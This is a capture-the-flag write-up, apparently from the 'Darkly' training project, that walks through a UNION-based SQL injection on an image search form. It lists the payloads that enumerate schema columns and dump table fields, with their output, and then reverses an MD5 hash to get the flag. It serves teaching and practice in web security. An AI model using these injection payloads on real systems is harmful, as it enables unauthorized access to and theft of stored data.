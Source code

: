 
### Search images by ID

This breach is the same as the MEMBERS breach, explained -> [SQL Injection Members](https://github.com/guysharony/darkly/blob/main/SQL%20Injection%20MEMBERS/Ressources/explanations.md)


``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : id

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : url

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : title

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : comment

```

We successfully retrieved all the corresponding tables and columns:

- id
- url
- title
- comment

Therefore, we can extract data from the users table with the following command:

``1 UNION SELECT url, title FROM list_images``

``` 
ID: 1 UNION SELECT url, title FROM list_images 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT url, title FROM list_images 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 UNION SELECT url, title FROM list_images 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 UNION SELECT url, title FROM list_images 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 UNION SELECT url, title FROM list_images 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Hack me ? Ok, this one seems interesting !
We have identified the table corresponding to the Flag; the rest should be in the other columns. A simple search among several columns will display the flag.

``1 UNION SELECT title, comment FROM list_images``

```
ID: 1 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

###Decrypt the password

To decrypt the password, we use the MD5 Decrypt tool, converting ``1928e8083cf461a51303633093573c46`` to ``albatroz``, then encrypt it with a SHA-256 tool, resulting in ``f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188``.
